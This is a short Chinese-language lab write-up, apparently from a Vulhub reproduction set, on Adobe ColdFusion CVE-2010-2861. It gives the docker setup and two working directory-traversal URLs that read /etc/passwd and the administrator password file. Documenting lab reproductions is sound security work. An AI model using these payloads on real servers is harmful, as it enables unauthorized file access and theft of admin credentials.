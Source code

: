# Adobe ColdFusion 文件读取漏洞 CVE-2010-2861

## 漏洞描述

Adobe ColdFusion是美国Adobe公司的一款动态Web服务器产品，其运行的CFML（ColdFusion Markup Language）是针对Web应用的一种程序设计语言。

Adobe ColdFusion 8、9版本中存在一处目录穿越漏洞，可导致未授权的用户读取服务器任意文件。

## 环境搭建

Vulhub执行如下命令启动Adobe CouldFusion 8.0.1版本服务器：

```
docker-compose up -d
```

环境启动可能需要1~5分钟，启动后，访问`http://your-ip:8500/CFIDE/administrator/enter.cfm`，可以看到初始化页面，输入密码`admin`，开始初始化整个环境。

## 漏洞复现

直接访问`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../../../../etc/passwd%00en`，即可读取文件`/etc/passwd`

![image-20220221201331662](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212013778.png)

读取后台管理员密码`http://your-ip:8500/CFIDE/administrator/enter.cfm?locale=../../../../../../../lib/password.properties%00en`

![image-20220221201418990](https://typora-1308934770.cos.ap-beijing.myqcloud.com/202202212014074.png)
